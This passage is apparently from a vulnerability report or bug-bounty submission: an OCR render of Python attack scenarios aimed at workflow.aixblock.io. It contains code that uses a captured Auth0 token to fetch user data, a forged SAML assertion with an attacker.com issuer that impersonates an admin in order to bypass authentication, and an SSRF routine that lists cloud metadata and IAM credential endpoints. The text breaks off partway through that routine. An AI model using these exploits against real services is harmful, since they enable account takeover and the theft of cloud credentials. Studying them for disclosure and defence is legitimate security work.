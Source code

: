 ```python
        print(f"Auth0 token obtained: {token}")
        
        # Use token to access user data
        users_url = f"https://{auth0_domain}/api/v2/users"
        headers = {"Authorization": f"Bearer {token}"}
        users_response = requests.get(users_url, headers=headers)
        print(f"Users data: {users_response.json()}")
```

### **Scenario 2: SAML Bypass Attack**
```python
# SAML exploitation
def exploit_saml_bypass():
    saml_acs_url = "https://workflow.aixblock.io/api/v1/authn/saml/acs"
    
    # Craft malicious SAML assertion
    malicious_saml = """<?xml version="1.0"?>
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
                ID="malicious_assertion"
                IssueInstant="2024-01-01T00:00:00Z"
                Version="2.0">
    <saml:Issuer>https://attacker.com</saml:Issuer>
    <saml:Subject>
        <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">
            admin@aixblock.io
        </saml:NameID>
    </saml:Subject>
    <saml:Conditions NotBefore="2024-01-01T00:00:00Z" NotOnOrAfter="2025-01-01T00:00:00Z"/>
    <saml:AuthnStatement AuthnInstant="2024-01-01T00:00:00Z">
        <saml:AuthnContext>
            <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
        </saml:AuthnContext>
    </saml:AuthnStatement>
</saml:Assertion>"""
    
    # Send malicious SAML assertion
    response = requests.post(saml_acs_url, 
                           data={'SAMLResponse': malicious_saml},
                           headers={'Content-Type': 'application/x-www-form-urlencoded'})
    
    if response.status_code == 200:
        print("SAML bypass successful!")
        print(f"Response: {response.text}")
```

### **Scenario 3: Webhook SSRF to Cloud Metadata**
```python
# Webhook SSRF exploitation
def exploit_webhook_ssrf():
    webhook_url = "https://workflow.aixblock.io/api/v1/webhooks"
    
    # Cloud metadata endpoints to test
    metadata_endpoints = [
        "http://169.254.169.254/latest/meta-data/",
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "http://169.254.169.254/latest/meta-data/instance-id",
        "http://169.254.169.254/latest/user-data",
        "http://metadata.google.internal/computeMetadata/v1/",
        "http://169.254.169.254/metadata/instance/compute/",
    ]
    
    for endpoint in metadata_endpoints:
```